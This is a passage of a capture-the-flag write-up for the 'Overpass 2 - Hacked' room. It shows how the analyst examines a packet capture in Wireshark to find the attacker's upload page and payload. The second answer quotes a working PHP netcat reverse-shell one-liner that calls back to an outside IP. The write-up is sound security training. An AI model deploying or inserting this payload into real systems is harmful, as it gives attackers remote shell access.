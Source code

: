 # Overpass 2 - Hacked Writeup

## [Task 1] Forensics - Analyse the PCAP

Overpass has been hacked! The SOC team (Paradox, congratulations on the promotion) noticed suspicious activity on a late night shift while looking at shibes, and managed to capture packets as the attack happened.

Can you work out how the attacker got in, and hack your way back into Overpass' production server?

Note: Although this room is a walkthrough, it expects familiarity with tools and Linux. I recommend learning basic Wireshark and completing CC: Pentesting and Learn Linux as a bare minimum.

md5sum of PCAP file: 11c3b2e9221865580295bc662c35c6dc

### 1 - What was the URL of the page they used to upload a reverse shell?

![](./images/2020-08-20-18-29-08.png)

The URL is /development/

To find this, we open up the pcap in wireshark, right click on a TCP packet and click on Follow --> TCP Stream.
This was found on TCP Stream 1.

### 2 - What payload did the attacker use to gain access?

![](./images/2020-08-20-18-41-56.png)

The payload was a nc payload that can execute in a php file:
    <?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
